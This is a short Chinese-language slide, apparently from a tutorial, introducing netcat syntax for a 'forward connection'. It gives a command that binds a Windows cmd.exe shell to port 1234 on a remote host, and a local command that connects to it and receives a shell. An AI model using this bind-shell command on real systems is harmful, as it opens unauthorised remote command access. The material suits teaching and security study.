

常用语法简单介绍
正向连接
【远程运行】netcat  -l  -p  1234  -t  -e  ％windir%\system32\cmd.exe

【本地运行】netcat   -nvv  192.168.1.1  1234

采用正向连接方式，远程主机（注：假设IP地址为 192.168.1.1）上执行上述命令即为绑定远程主机的 CMD 到1234 端口，当本地主机连接远程主机成功时就会返回给本地主机一个CMD Shell 。